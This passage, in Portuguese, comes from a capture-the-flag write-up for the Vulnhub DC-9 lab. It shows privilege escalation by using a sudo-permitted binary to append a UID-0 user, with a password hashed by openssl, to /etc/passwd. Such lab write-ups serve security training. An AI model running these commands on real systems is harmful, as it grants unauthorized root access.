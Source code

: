 
* Seguindo a metodologia, ao listar o que o usuario pode fazer como sudo encontramos algo interessante

![](/assets/img/Vulnhub/DC-9/sudo -l-fredf.png)


\newpage

* Varrendo os diretorios do binario e os anteriores encontramos o arquivos **test.py**. Ao ler ele e possivel imaginar que o binario ao executar o mesmo pode escrever em um arquivo

![](/assets/img/Vulnhub/DC-9/test-py.png)


\newpage

## Adicionando um usuario


* Como ja sabemos que podemos utilizar o binario test como sudo e o binario pode escrever em um arquivo... Entao vamos adidionar um usuario no /etc/passwd com os mesmos privilegios do root

```bash
openssl passwd thelifesnake
echo "charlie:pFBA1KAF/n7DA:0:0:Charlie:/root:/bin/bash" >> charlie.txt
sudo /opt/devstuff/dist/test/test charlie.txt /etc/passwd
```

![](/assets/img/Vulnhub/DC-9/charlie-add.png)

> O comando openssl serve para codificarmos a senha no formato que o passwd aceita
